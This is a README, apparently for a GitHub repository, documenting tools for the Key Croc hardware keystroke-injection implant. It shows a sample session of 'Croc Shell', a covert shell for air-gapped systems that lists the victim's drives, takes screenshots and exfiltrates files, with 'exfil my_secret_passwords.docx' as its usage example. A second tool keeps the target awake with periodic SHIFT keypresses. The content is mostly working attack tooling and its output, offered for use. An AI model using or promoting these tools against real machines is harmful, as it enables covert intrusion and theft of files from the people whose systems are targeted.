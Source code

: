 # Key Croc Tools

### Croc Shell

Allows the Croc to establish a reverse-shell on air-gapped systems. The Croc will act in `ATTACKMODE HID STORAGE` to collect the output of the commands and loot.

	root@croc:~# python udisk/tools/crocshell_via_storage.py 
	Starting the shell ...
	CrocSHELL> D:

	CrocSHELL> ls
	Verzeichnis: D:\


	Mode                 LastWriteTime         Length Name                                        
	----                 -------------         ------ ----                                        
	d-----        19.01.2023     09:32                000_BreachCompilation                       
	d-----        03.12.2022     22:36                3CX                                         
	d-----        26.01.2022     08:09                Blog                                        
	d-----        03.04.2022     12:26                Combs_1                                     
	d-----        25.01.2022     15:29                DFL                                         
	d-----        26.01.2022     00:30                DFLTask                                     
	d-----        10.02.2022     13:39                Honor 8S                                    
	d-----        23.10.2016     08:52                plaso-1.5.1                                 
	d-----        26.01.2022     07:53                ZZZ_FONTS                                   
	-a----        04.05.2023     09:57         487556 173.jpg                                     
	-a----        04.05.2023     10:12         206541 173.mp3                                     
	-a----        04.05.2023     13:44        1415029 173.mp4                                     
	-a----        25.01.2023     20:11           5050 banner.txt                                  
	-a----        17.02.2022     14:08     1994995712 paladin_edge_64.iso                         
	-a----        03.07.2022     09:27        1577592 WordRepair.exe                              
	CrocSHELL> L:

	CrocSHELL> ls
	Verzeichnis: L:\


	Mode                 LastWriteTime         Length Name                                        
	----                 -------------         ------ ----                                        
	d-----        14.07.2021     12:14                CDFE                                        
	d-----        12.01.2022     16:12                CDFP                                        
	d-----        13.08.2020     08:33                DFL Manuals                                 
	d-----        20.03.2020     14:01                JPG_Hi_Res                                  
	d-----        10.06.2021     18:38                PaWASP                                      
	d-----        11.02.2023     13:50                UnFOUNDchk                                  
	------        21.08.2021     20:06         126205 20210821_200626_FLASH_25010.dat.gz          
	------        20.10.2020     15:35          90539 5c21487e-3812-4498-b66a-eafe679bc4c8.jpg    
	------        01.04.2021     11:16         144368 7a39a04273-9fc4-4e18-b256-9c489b9c6a1c.jpeg 
	------        01.04.2021     11:16         128311 7a61adbd-8e52-4bad-9203-fc842d4069d2.jpeg   
	------        04.11.2020     18:52         627966 hddsuperclone_2.2.18-1_amd64.deb            
	------        27.04.2023     15:33          70553 PawnP1_01.png                               
	------        27.04.2023     15:51          19861 Pawnp1_02.png                               

	CrocSHELL> peek
	E:\screenshot_5.jpg ... saved

	CrocSHELL> exfil PawnP1_01.png

	CrocSHELL> help

	AVIALABLE COMMANDS:
	--------------------
	exit .... End shell 
	exfil ... Exfiltrate file - e.g.: exfil my_secret_passwords.docx
	peek .... Take a screenshot

	CrocSHELL> exit
	root@croc:~# 

### Prevent the system to go to sleep

Sends a `SHIFT` keypress each 55 seconds if there is no keyboard activity

	root@croc:~# python udisk/tools/prevent_sleep.py 
	Sending SHIFT keypress for the 1. time!
	Sending SHIFT keypress for the 2. time!
	...
	Sending SHIFT keypress for the 897. time!
	^C
	root@croc:~#

You can also run the command in background and log out 

	root@croc:~# python udisk/tools/prevent_sleep.py &
	[1] 9219
	root@croc:~#

